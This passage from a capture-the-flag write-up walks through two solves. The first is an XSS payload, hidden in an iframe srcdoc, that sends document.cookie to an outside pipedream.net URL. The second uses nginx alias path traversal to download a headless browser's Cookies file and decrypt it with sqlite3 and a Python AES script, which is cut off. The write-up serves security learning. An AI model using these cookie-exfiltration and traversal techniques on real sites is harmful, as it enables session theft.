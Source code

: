They used HTML escape codes inside an `iframe`'s `srcdoc` to run the following:

```js
<script>
  setTimeout((() =>{" "}
  {(location = "https://eo5f0qhafu5x50k.m.pipedream.net/" + document.cookie)}),
  1000)
</script>
```

Which then exfiltrated the cookie!

### Nginx Shenanigans

Full credit to Discord user `minilucker` for this solve.

Pulling out the browser cookies from the Puppeteer cache you can decrypt them for the flag.

Firstly send a report to the URL `http://localhost/` to initialise the cookies in the browser cache.

Then visit `http://localhost/logs../browser_cache/Default/Cookies` to download the Cookies file with a path traversal.

This occurs due to a misconfiguration in the nginx config:
```
events{}
user root;

http {
    server {
        listen 80;

        location / {
            proxy_pass http://127.0.0.1:5000;
        }

        location /logs {
            autoindex off;
            alias /tmp/bot_folder/logs/;
            try_files $uri $uri/ =404;
        }
    }
}
```

You can read more about the location misconfiguration [here](https://www.acunetix.com/vulnerabilities/web/path-traversal-via-misconfigured-nginx-alias/) but it allows path traversal.

We can initialise the `Cookie` file with `sqlite3`:
```bash
$ sqlite3 Cookies
sqlite> select hex(encrypted_value) from cookies;
763130AB3A186C367663FCBA25263072C8B5BFAF15135690D33686A9C6A4D0EA0403DE
```

This can then be decrypted using a Python script
```python
#! /usr/bin/env python3

from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

# Function to get rid of padding
def clean(x): 
    return x[:-x[-1]].decode('utf8')

encrypted_value = bytes.fromhex("763130AB3A186C367663FCBA25263072C8B5BFAF15135690D33686A9C6A4D0EA0403DE") 
```